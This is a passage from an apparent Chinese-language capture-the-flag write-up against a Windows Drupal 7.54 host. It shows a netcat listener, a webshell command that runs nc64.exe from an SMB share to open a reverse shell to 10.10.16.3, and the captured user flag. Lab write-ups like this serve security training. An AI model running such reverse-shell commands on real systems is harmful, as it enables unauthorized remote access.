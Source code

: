 kali监听

```bash
└─# nc -lvnp 443
```

webshell 触发

```
\\10.10.16.3\share\nc64.exe -e cmd 10.10.16.3 443
```

<img src=".\图片\Snipaste_2023-08-31_16-11-03.png" alt="Snipaste_2023-08-31_16-11-03" style="zoom:80%;" />

```bash
C:\inetpub\drupal-7.54>whoami
nt authority\iusr
C:\Users\dimitris\Desktop>type user.txt
type user.txt
ccf31bd00128ba9da73ffa93e09eefc0
```

## 中场总结
